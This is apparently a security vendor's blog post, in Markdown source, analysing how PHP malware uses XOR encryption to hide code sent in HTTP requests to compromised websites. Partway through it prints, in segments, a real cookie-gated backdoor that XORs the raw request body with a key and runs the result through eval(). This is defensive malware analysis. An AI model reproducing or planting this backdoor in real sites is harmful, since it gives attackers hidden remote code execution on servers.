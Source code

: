 ```yaml
---
layout: post
title: "PHP Malware and XOR Encrypted Requests"
date: 2019-09-27 09:00:00 -0700
cover: /assets/images/php-xor/php-xor-cover.png
excerpt: An analysis of the methods that malicious users use to implement XOR encryption to try and hide the data in HTTP requests sent to PHP malware existing on a compromised website or webserver.
authors:
  - name: Luke Leal
    title: Security Engineer, Sucuri
    url: https://twitter.com/rootprivilege
    photo: https://avatars.githubusercontent.com/sucuri-luke
---
```


## About this post

As a security engineer at [Sucuri](https://sucuri.net) (Sucuri was acquired by GoDaddy in Spring 2017), we must use reverse engineering and analytical skills to determine if a suspected code sample is indeed malicious and then after confirmation we need to understand exactly how it is being used by the attacker. In this post we'll explain how the **XOR** operator works in PHP, the multiple ways that **XOR** can be used to hide malicious data, and how you can use the **XOR** operating principles to reverse engineer PHP malware that uses it to hide malicious code.

## How Does The XOR Cipher Operate?

We will mainly focus on the simple [XOR cipher](https://en.wikipedia.org/wiki/XOR_cipher), which itself is an application of the [exclusive disjunction (XOR)](https://en.wikipedia.org/wiki/Exclusive_or) logical operation.

Let’s examine how the **XOR** bitwise operator, ⨁, is used as a cipher additive for encryption/decryption:  

<table style="width: 50%; margin-left: auto; margin-right: auto;">
<tbody>
<tr>
<td style="width: 22.1191%;"><strong>A</strong><sub>plaintext</sub></td>
<td style="width: 17.881%;">⨁</td>
<td style="width: 17%;"><strong>B</strong><sub>key</sub></td>
<td style="width: 8%;">=</td>
<td style="width: 33%;"><strong>C</strong><sub>ciphertext</sub></td>
</tr>
</tbody>
</table>

It is **important** to mention that PHP uses the **^** caret symbol for the **XOR** operator as it does not allow for the ⨁ symbol to be used in its code.

[PHP’s manual](https://secure.php.net/manual/en/language.operators.bitwise.php) provides further information regarding how the XOR operation is performed at the bit level on the operand strings in the PHP code:


>
"If both operands for the [...] ^ operators are strings, then the operation will be performed on the ASCII values of the characters that make up the strings and the result will be a string."
>

PHP malware using **XOR** will often use two **operands**, which are defined variables containing strings (e.g **$a** and **$b**). The strings used by one of the operand variables are the **[plaintext](https://en.wikipedia.org/wiki/Plaintext)** (in this example it is the malicious code) that we wish to encrypt, and the other operand variable string is what is known as a **pre-shared key**. 

It’s also important to know that **XOR** operates as a **[symmetrical](https://en.wikipedia.org/wiki/Symmetric-key_algorithm)** form of encryption - which means that we can encrypt and decrypt using the same key. 

Let us break this down with a simple PHP example:

```
<?php
$a = "test" ; //our plaintext that we want encrypted
$b = "1234" ; //our key to use with plaintext to give us encrypted result
$c = $a ^ $b ; //our XOR bitwise encryption between $a and $b
echo $c ; //result = EW@@
?>
```


Remember that PHP’s **^** (**XOR**) bitwise operator converts each character to their corresponding ASCII value, which can be [checked with an ASCII table](https://simple.wikipedia.org/wiki/ASCII#/media/File:ASCII-Table-wide.svg). 

A visual table of the **XOR** symmetric encryption:

<table style="width: 65%; margin-left: auto; margin-right: auto;" border="1">
<thead>
<tr>
<th align="center"><strong>A</strong><sub>plaintext</sub></th>
<th align="center">⨁</th>
<th align="center"><strong>B</strong><sub>key</sub></th>
<th align="center">ASCII -> decimal</th>
<th align="center"><strong>A</strong><sub>dec value</sub></th>
<th align="center">⨁</th>
<th align="center"><strong>B</strong><sub>dec value</sub></th>
<th align="center"></th>
<th align="center"><strong>C</strong><sub>ciphertext</sub></th>
<th align="center"><strong>C</strong><sub>ASCII char</sub></th>
</tr>
</thead>
<tbody>
<tr>
<td align="center">t</td>
<td align="center">^</td>
<td align="center">1</td>
<td align="center">=</td>
<td align="center">116</td>
<td align="center">^</td>
<td align="center">49</td>
<td align="center">=</td>
<td align="center">69</td>
<td align="center">E</td>
</tr>
<tr>
<td align="center">e</td>
<td align="center">^</td>
<td align="center">2</td>
<td align="center">=</td>
<td align="center">101</td>
<td align="center">^</td>
<td align="center">50</td>
<td align="center">=</td>
<td align="center">87</td>
<td align="center">W</td>
</tr>
<tr>
<td align="center">s</td>
<td align="center">^</td>
<td align="center">3</td>
<td align="center">=</td>
<td align="center">115</td>
<td align="center">^</td>
<td align="center">51</td>
<td align="center">=</td>
<td align="center">64</td>
<td align="center">@</td>
</tr>
<tr>
<td align="center">t</td>
<td align="center">^</td>
<td align="center">4</td>
<td align="center">=</td>
<td align="center">116</td>
<td align="center">^</td>
<td align="center">52</td>
<td align="center">=</td>
<td align="center">64</td>
<td align="center">@</td>
</tr>
</tbody>
</table>
  

After undergoing **XOR** bitwise operation, we are left with the ASCII decimal values of **69 87 64 64** (or **EW@@** after we convert back to ASCII characters. The result is the [ciphertext](https://en.wikipedia.org/wiki/Ciphertext) (**C**), also known as the encrypted text. 

Remember, this is symmetrically encrypted — so the key (**B**) to decrypt it back into plaintext (**A**) is the same key that was used to encrypt it.

<h2>PHP Malware and XOR</h2>

In the case of PHP malware that utilizes XOR encryption for obfuscation, we primarily see it used in three methods:

<h3>The First Method</h3>

**Only the ciphertext (C) in the infected file is stored. The malicious user submits the key (B) in a HTTP request to the PHP file which then decrypts the ciphertext (C) to plain text (A). The now decrypted ciphertext (A) is legible code and can then be executed by PHP.**


<table style="width: 50%; margin-left: auto; margin-right: auto;">  
  <tr>
   <td align="center"><strong>C</strong> <sub>ciphertext in file</sub>
   </td>
   <td align="center">^
   </td>
   <td align="center"><strong>B</strong><sub>key sent by hacker</sub>
   </td>
   <td align="center">=
   </td>
   <td align="center"><strong>A</strong><sub>plaintext PHP code</sub>
   </td>
   </tr>
</table>


The plaintext (**A**) string is malicious code that attackers then encrypt on their end by using **XOR** with a key (**B**) string, The result ends up being the ciphertext (**C**), which is unreadable as PHP code. 

This ciphertext (**C**) is then added to a compromised websites’ file(s), along with some PHP code that uses some user-provided data (e.g via <code>$_POST</code>). This allows the hacker to send the value of the key and use the infected PHP file to decrypt the ciphertext (**C**) back to plaintext (**A**) (their malicious PHP code), then execute it using something like the <strong><code>eval()</code></strong> function.

Users that open the infected PHP file will only see the ciphertext (**C**); as they are missing the (**B**) key, they therefore cannot easily decrypt the encrypted content (**C**). This is what the hacker wants, as it keeps their malicious PHP code unreadable until they submit a request containing the necessary key (**B**) string.

One problem is that, depending on the amount of encrypted malicious PHP code, the ciphertext (**C**) in the infected file can be large and attract suspicion when viewed in a file editor.

<h3>The Second Method</h3>

**Only the key (B) in the infected file is stored. The hacker then provides the ciphertext (C) in their request and it is XOR’ed with the existing key value in the file to form our plaintext (A) — which is then executed.**


<table style="width: 50%; margin-left: auto; margin-right: auto;">  
<tr>
   <td align="center"><strong>C</strong><sub>ciphertext sent by hacker</sub>
   </td>
   <td align="center"><strong>^ </strong>
   </td>
   <td align="center"><strong>B</strong><sub>key in file code</sub>
   </td>
   <td align="center"><strong>=</strong>
   </td>
   <td align="center"><strong>A</strong><sub>plaintext PHP code</sub>
   </td>
</tr>
</table>



For this second method, let’s take a look at a recent backdoor that was found in a file named “**01f008ec.php**” within the root directory of an infected website.  

PHP file formatted and segmented for clarity:

```
$auth = "21a27be0cd332f0e8430e24da7158a96";
if (isset($_COOKIE[$auth]))
{
  $key = str_rot13($_COOKIE[$auth]);
```


The backdoor starts with a <strong><code>isset</code></strong> condition that must be satisfied in the request sent to the file — in this case, the <strong>[HTTP cookie](https://en.wikipedia.org/wiki/HTTP_cookie)</strong> containing the key value. This cookie value, which must match the hardcoded value of the defined <strong><code>$auth</code> </strong>variable,<strong> </strong> is then encoded using <strong><code>str_rot13</code></strong> and used to define the <strong><code>$key</code></strong> (**B**) variable.


```
  $res = "";
  foreach (str_split(@file_get_contents('php://input') , strlen($key)) as $part)
  {
      $res .= $part ^ $key;
  }
  eval($res);
```


Before the **XOR** operation, the file will use <strong><code>file_get_contents('php://input')</code></strong> to read raw data through **GET**/**POST** requests (XOR encoding may add special characters that can be broken if not transmitted raw) to the malicious file.  It’s then split into an array using <strong><code>str_split</code></strong> and defined with the variable <strong><code>$part</code></strong> within a <strong><code>foreach</code></strong> loop. 

We can see the malicious file’s code eventually evaluates code through a separate variable, <strong><code>eval($res)</code></strong> — this lets us know that the variable <strong><code>$res</code></strong> should contain the plaintext PHP code in order to be successfully executed. 


```
  {
      $res .= $part ^ $key;
  }
  eval($res);
```


This is a great example of the properties of symmetrical cryptography. The hacker uses the key (**B**) value to create the unreadable ciphertext (**C**) on their end, then the ciphertext (**C**) is submitted to the infected file via GET/POST request where it will be **XOR**’ed with the key (**B**) once more. The result is a plaintext (**A**) value that contains the malicious PHP code to be executed by the <strong><code>eval()</code></strong> function. 

It’s important to note that the plaintext (**A**) gets evaluated, so you won’t ever see it — nor the ciphertext (**C**) being sent to the infected file (unless you are logging HTTP requests or otherwise inspecting HTTP packets). 

One advantage with using this method is that even if HTTP requests are being inspected (e.g. by a firewall), website owners wouldn’t see the plaintext PHP, which can aid in evading detection. Another advantage is that the infection in the file can be much smaller (~235 characters on one line) than the previous method, which can have thousands of characters — this can also help prevent administrators from identifying malicious changes to files. 

<h3>The Third Method</h3>

The third method we see shares these same advantages, along with one more:

**The infected file does NOT contain any hardcoded ciphertext (C) or a key (B): Instead, the hacker provides the ciphertext and key as two strings in a crafted HTTP request to the infected file. These are then XOR'ed to produce the cleartext (A), which can then be executed.**

This third method doesn’t have the key value (**B**) hardcoded into the infected file’s coding like our previous example, therefore requiring interception of the HTTP request so that the key value (**B**) can be used to decrypt/encrypt the ciphertext (**C**).

<h2>Conclusion </h2>

In conclusion, **XOR** bitwise operations in PHP malware can help hackers evade certain security controls, but their symmetric cryptography means that anyone that knows the pre-shared secret key can decrypt/encrypt using it. 

Users who believe that their site may be infected with a PHP backdoor can refer to our [hacked website guides](https://sucuri.net/guides/) for cleanup instructions, or [reach out to our remediation team](https://sucuri.net/website-malware-removal/) for assistance — we’re always happy to lend a hand. 

If you would like to receive email notifications for technical website security posts, subscribe for our [blog feed](https://info.sucuri.net/subscribe-to-security).  
